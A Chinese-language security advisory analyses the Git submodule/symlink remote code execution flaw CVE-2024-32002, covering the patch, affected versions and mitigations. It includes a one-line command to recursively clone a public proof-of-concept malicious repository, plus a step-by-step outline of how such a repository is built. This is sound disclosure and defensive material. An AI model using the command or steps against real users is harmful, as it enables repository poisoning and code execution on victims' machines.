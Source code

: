 #  漏洞预警 | Git 远程代码执行(CVE-2024-32002)漏洞复现与分析   
 源鲁安全实验室   2024-05-23 20:53  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/rvJnia9NjkSOvH82YAwfpddXm3ZvZgK8RUBADaYm2lTvhd9aPsJgjTWP4iaAlAOOibiaEeOeicJqO3q80yAbBgG9cQQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
此文章原创作者为源鲁安全实验室，转载请注明出处！此文章中所涉及的技术、思路和工具仅供网络安全学习为目的，不得以盈利为目的或非法利用，否则后果自行承担！  
  
0x00 简介  
  
  
  Git是一款免费开源的分布式版本控制系统，支持在多个系统中安装运行，广泛用于协作开发和管理软件项目。在git中提供了许多功能，比如从服务器上克隆完整的Git仓库，项目版本控制等。  
  
  在开发项目中如果需要在两个独立项目中，如果需要在一个项目中去使用另一个项目，可通过git的子模块来解决这个问题。通过 git submodule命令进行添加子模块，clone的时候通过recursive选项进行递归clone子模块。  
   
  
  该漏洞将会在受害者通过git clone   
--recursive去下载远程攻击者创建带有特殊子模块和符号链接的恶意存储库时触发恶意脚本，从而造成远程代码执行，因此该漏洞可能将被用于钓鱼或投毒。  
  
0x01 漏洞复现  
  
```
git clone --recursive git@github.com:amalmurali47/git_rce.git
```  
  
Windows下在管理员权限下通过Git Bash可复现此漏洞【需要管理员权限】  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BSbU8iceXVoAa5QStyDt5zYOo7qgO4kDprz0SOvoZbY293A2nf1Hic2e6AwmHqyTf5eCJWVl875AmDAcpzuR9zwA/640?wx_fmt=png&from=appmsg "")  
  
Mac环境：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BSbU8iceXVoAa5QStyDt5zYOo7qgO4kDpuf9AAgz2dYdR7gEU4CdmYTh0g8apTicNL4V1pGms6piaBrC0BPUCXXow/640?wx_fmt=png&from=appmsg "")  
  
0x02 漏洞分析  
  
  
补丁地址：  
  
https://github.com/git/git/commit/97065761333fd62db1912d81b489db938d8c991d  
  
在补丁更新中主要变更了两个文件，一个是漏洞修复的builtin/submodule--helper.c文件，另一个则为漏洞测试脚本。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BSbU8iceXVoCOUibHxtF7BiaIkkCNwobCicBksaUcEiasPTyhAoI0bqDeqEFNvsYFLJCR6kMYMibET8icRPaoWR2woo7g/640?wx_fmt=png&from=appmsg "")  
  
dir_contains_only_dotgit函数用于确认一个目录中是否只包含 .git，防止包含符号链接。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BSbU8iceXVoCOUibHxtF7BiaIkkCNwobCicByaguiah4uWYmchTmZia5VXvKAFNQC5J5WAov0AsTIXYcnQ4YuXRyibCVQ/640?wx_fmt=png&from=appmsg "")  
  
在clone_submodule函数中使用dir_contains_only_dotgit函数确保  
clone_data_path中没  
有符号链接，通过检查目录是否存在.git来达到修复的效果。  
  
之后观察下t/t7406-submodule-update.sh  
检测脚本：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BSbU8iceXVoCOUibHxtF7BiaIkkCNwobCicB1jHmkgc3kBVK32fgibmXXeBxQiau950OITxrgiakbFsj2OrVrH4UUK4yg/640?wx_fmt=png&from=appmsg "")  
  
根据测试脚本可以看出漏洞利用条件需要设置"test_config_global core.symlinks true"，  
  
即开启symlinks功能。  
  
之后继续分析测试脚本，可见漏洞利用还需要：  
  
**1.**创建了hook项目，在这个项目中可以存放攻击者的恶意payload。  
  
**2.**  
 在captain项目中使用git submodule add --name x/y "$hook_repo_path" A/modules/x命令添加子项目模块，也就是刚刚创建的hook项目，定义子模块名称为x/y，路径在A/modules/x文件夹内。  
--name的名称指定了在父模块中./git/modules模块中的子项目名称。  
  
**3.**  
 在captain中创建一个符号链接，并且是和子模块路径同名，但是区分大小写。之后符号链接指向了.git文件夹。  
  
**4.**  
git clone --recursive captain hooked完成了利用。  
  
其中利用windows、mac系统不区分大小写的特性，和在git存储库中构造区分大小写的项目，从而递归克隆两个项目时目录造成差异性，欺骗git来将恶意hook文件传递到主项目文件夹的.git/modules中仓库目录hook文件夹内，之后触发父模块modules文件夹子模块里的Hook。  
  
需要注意git submodules时候，使用--name指定名称会在父模块.git/modules中生成子模块的仓库目录名称，里面的内容对应子模块仓库中原有的.git 目录中的文件，此时虽然子模块目录下的.git依然存在，但是已经由一个文件夹变成了文件，内容格式为：  
```
gitdir: ../.git/modules/xxx
```  
  
指向了父模块的 .git/modules/xxx 目录。  
  
但由于此时.git目录和子模块项目相同，为了父项目的.git/modules中子模块的仓库路径和子模块路径中的.git文件不产生冲突，--name需要多一层目录来将两个模块区分开。  
  
0x03   
漏洞影响范围  
  
  
仅影响Windows和MAC系统下如下版本：  
  
git 2.45.0  
  
git 2.44.0  
  
2.43.0<=  
git < 2.43.4  
  
2.42.0<=   
git< 2.42.2  
  
git 2.41.0  
  
2.40.0<=  
gi  
t < 2.40.2  
  
git < 2.39.4  
  
0x04 修复方案  
  
  
临时修复方案：  
  
**1.**  
在Git中禁用符号链接（` git config --global core.symlinks false`）  
  
**2.**  
避免在不受信任的来源克隆存储库  
  
  
官方修复方案：  
  
厂商(  
https://github.com/git/git/tags)已发布修复版本，请将Git更新到如下版本：  
  
v2.45.1  v2.44.1  v2.43.4  v2.42.2  v2.41.1  v2.40.2  v2.39.4  
  
  
0x05 产品支持方案  
  
  
源鲁IT资产及健康监测系统支持该漏洞的排查  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BSbU8iceXVoCOUibHxtF7BiaIkkCNwobCicB75t2kO4L8fjyHCPs9g7Jx4T1DZdhibkr1Ve0nffpDStwjNIJNQ4oG6g/640?wx_fmt=png&from=appmsg "")  
  
  
0x06 引用  
  
  
https://github.com/git/git/commit/97065761333fd62db1912d81b489db938d8c991d  
  
https://github.com/git/git/tags  
  
  
**关于源鲁安全实验室**  
  
源鲁安全实验室，是一支以攻防研究为核心的安全团队，团队成员来源于一线攻防团队，安全研究团队。研究方向涉及WEB安全，APP安全，漏洞研究，代码审计，内网渗透，二进制，安全产品研究等多个领域，致力为客户提供一流的服务，保障客户业务安全。  
  
  
  
  

